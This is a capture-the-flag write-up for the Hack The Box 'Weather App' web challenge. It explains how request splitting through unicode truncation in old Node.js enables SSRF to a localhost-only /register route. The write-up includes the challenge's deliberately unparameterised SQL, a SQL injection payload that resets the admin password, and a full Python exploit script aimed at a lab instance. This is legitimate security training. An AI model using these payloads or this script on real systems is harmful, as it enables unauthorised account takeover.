


## Challenge description
Weather App is an above-intermediate difficulty web challenge. This web challenge involves SQL injection and advanced SSRF vulnerabilities. 

When you browse the web app, it won't show any links/buttons or routes, so the provided source code files are necessary for you to explore the web app. This write up expects you to have the web app source code files downloaded from HTB already.

Initial methodology to find SQL injection
-----------------------------------------

After downloading the provided file and viewing `index.js` in the `challenge` folder (this is the first file to look at as it will be run automatically when the web app is initialized), we can know that there is a database called `weather.db` being initialized. 

The next file to look at is `challenge/routes/index.js` because this file determines which URL path we have access to and their corresponding functions. We have `/register` (GET&POST), `/login` (GET&POST), `/api/weather` (POST). 

The `/login`'s POST function shows this:

```text-plain
if (username && password) {
	return db.isAdmin(username, password)
		.then(admin => {
			if (admin) return res.send(fs.readFileSync('/app/flag').toString());
			return res.send(response('You are not admin'));
		})
		.catch(() => res.send(response('Something went wrong')));
}
```

Now we know in order to get the flag, we have to login as an admin, and the application checks it by using the `db.isAdmin()` function.

This is the `db.isAdmin()` function:

```text-plain
async isAdmin(user, pass) {
    return new Promise(async (resolve, reject) => {
        try {
            let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
            let row = await smt.get(user, pass);
            resolve(row !== undefined ? row.username == 'admin' : false);
        } catch(e) {
            reject(e);
        }
    });
}
```

So the application checks the admin username directly to provide the flag. The first thought that comes through my mind is: what if we create an user called “admin”?

Well, it won't work because the username must be unique and an admin user is created at the beginning:

```text-plain
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```

At this point, I was thinking to brute force the password because I didn't know what does `crypto.randomBytes(32).toString('hex')` create. After running the function, I quickly gave up:



Since the application is interacting with database, so I am looking for SQL injection now, the `isAdmin()` function uses parameterized SQL query, but the `register` function doesn't:

```text-plain
async register(user, pass) {
    // TODO: add parameterization and roll public
    return new Promise(async (resolve, reject) => {
        try {
            let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
            resolve((await this.db.run(query)));
        } catch(e) {
            reject(e);
        }
    });
}
```

So, we can use SQL injection and easily extract the flag, but after reading the `/register` function in `challenge/routes/index.js`, the application only accepts user registration when the request comes from `127.0.0.1`. 

```
if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
}
```

I tried bypassing this control by using these HTTP headers, but seems like the server doesn't get fooled so easily:



Perhaps SSRF?

Initial methodology to find SSRF
--------------------------------

The another interesting function in `challenge/routes/index.js` is the `/api/weather`'s POST function (since the challenge is called “Weather App”…):

```text-plain
let { endpoint, city, country } = req.body;

if (endpoint && city && country) {
	return WeatherHelper.getWeather(res, endpoint, city, country);
}

return res.send(response('Missing parameters'));
```

So this API accepts 3 parameters, which are `endpoint`, `city`, `country`, and it uses the `WeatherHelper.getWeather()` function.

By reading that function, we know that it basically uses another function (`HttpHelper.HttpGet()`) and return some data (not important):

```text-plain
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);
```

At this point, I was thinking to inject stuff like [`http://127.0.0.1/register#`](http://127.0.0.1/register#) as the `endpoint` to complete the SSRF attack because `#` will make everything behind become an URL fragment. However, we need to submit POST request to register. This makes everything difficult because it involves advanced SSRF attacks (don't know why HTB rates this as an easy challenge).

Potential vulnerabilities
-------------------------

*   ~Register admin account~
    *   ~Brute force admin password~
*   SQLi
*   Advanced SSRF (request splitting)

After doing some research, I found this article: [https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/). This write up will briefly explains what happen, read the article if you need full information.

Node.js data corruption when handling user input (below node.js version 8)
--------------------------------------------------------------------------

Although users of the `http` module will typically specify the request path as a string, Node.js must ultimately output the request as raw bytes. JavaScript has unicode strings, so converting them into bytes means selecting and applying an appropriate unicode encoding.

For requests that do not include a body, Node.js defaults to using "latin1", a single-byte encoding that cannot represent high-numbered unicode characters such as the 🐶 emoji. **Such characters are instead truncated to just their lowest byte of their internal JavaScript representation:**

```text-plain
> v = "/caf\u{E9}\u{01F436}"
'/café🐶'
> Buffer.from(v, 'latin1').toString('latin1')
'/café=6'
```

### SSRF via Request Splitting & Node.js data corruption when handling user input

Consider an user request is received:

```text-plain
GET /private-api?q=<user-input-here> HTTP/1.1
Authorization: server-secret-key

# <user-input-here>:
x HTTP/1.1\r\n\r\nDELETE /private-api HTTP/1.1\r\n
```

The server will interpret it as:

```text-plain
GET /private-api?q=x HTTP/1.1

DELETE /private-api
Authorization: server-secret-key
```

_Note: At this point, the server thinks there are 2 separate HTTP requests, hence causing SSRF._

Good-quality HTTP libraries will typically include mitigations to prevent this behavior (including Node.js) by using **percent-escape**:

```text-plain
> http.get('http://example.com/\r\n/test').output
[ 'GET /%0D%0A/test HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' ]
```

However, due to the Node.js version 8 or lower's data corruption vulnerability, these characters get truncated into the bytes for `\r` and `\n`:

```text-plain
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```

_Note: This behavior is fixed in Node.js version 10. But for Node.js versions 8 or lower, any server that makes outgoing HTTP requests may be vulnerable to an SSRF via request splitting if it:_

*   _Accepts unicode data from from user input, and_
*   _Includes that input in the request path of an outgoing HTTP request, and_
*   _The request has a zero-length body (such as a GET or DELETE)._

#### Useful characters for this vulnerability

```text-plain
space = '\u0120'
\r+\n = '\u010D\u010A'
```

Now, we know we can split the HTTP request into different HTTP requests, hence conducting an SSRF attack to submit a POST request to `/register`. So, we only need to generate our proof of concept now.

SQL Injection to modify admin's password
----------------------------------------

This is the original SQL query for user registration (vulnerable to SQLi):

```text-plain
INSERT INTO users (username, password) VALUES ('${user}', '${pass}')
```

Forge a malicious SQL query (the injection point is the password field in `/register`):

```text-plain
doesntmatter') ON CONFLICT(username) DO UPDATE SET password ='admin';--

# which makes this happen
INSERT INTO users (username, password) VALUES ('${user}', 'doesntmatter') ON CONFLICT(username) DO UPDATE SET password ='admin';--')
```

Building PoC for SSRF via Request Splitting 
--------------------------------------------

Looking at the previous `getWeather()` function and `HTTPHelper.js`:

```text-plain
// getWeather()
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);


// HTTPHelper.js
const http = require('http');

module.exports = {
	HttpGet(url) {
		return new Promise((resolve, reject) => {
			http.get(url, res => {
				let body = '';
				res.on('data', chunk => body += chunk);
				res.on('end', () => {
					try {
						resolve(JSON.parse(body));
					} catch(e) {
						resolve(false);
					}
				});
			}).on('error', reject);
		});
	}
}
```

We can guess that this function will do:

```text-plain
GET /{endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey} HTTP/1.1
Host: 127.0.0.1
```

The `endpoint` is our injection point and we will need to inject these:

```text-plain
127.0.0.1/
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: str(content_length)

username=username&password=sqli_payload

GET 
```

The preconfigured request + our payload:

```text-plain
GET /127.0.0.1/
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: str(content_length)

username=username&password=sqli_payload

GET /data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey} HTTP/1.1
Host: 127.0.0.1
```

You might find the first line lacks of "HTTP/1.1", but both will work after testing. I used Python to send this request:

```text-plain
import requests

# Target URL
url = "http://46.101.48.208:30911"

# For SQLi
username = "admin"
password = "doesntmatter') ON CONFLICT(username) DO UPDATE SET password ='admin';--"
# We can also replace " " with "+" (urlencode)
parsed_password = password.replace(" ", "\u0120").replace("'", "%27")
content_length = len(username) + len(parsed_password) + 19

parsed_space = '\u0120'
parsed_newline = '\u010D\u010A'

endpoint = f'127.0.0.1/{parsed_newline}Host:{parsed_space}127.0.0.1{parsed_newline}{parsed_newline}POST{parsed_space}/register{parsed_space}\
HTTP/1.1{parsed_newline}Host:{parsed_space}127.0.0.1{parsed_newline}Content-Type:{parsed_space}application/x-www-form-urlencoded{parsed_newline}Content-Length:{parsed_space}'\
+ str(content_length) + f'{parsed_newline}{parsed_newline}username=' + username + '&password=' + parsed_password + f'{parsed_newline}{parsed_newline}GET{parsed_space}'

r = requests.post(url + '/api/weather', json={'endpoint':endpoint, 'city':'test','country':'test1'})
print(r.text)
```
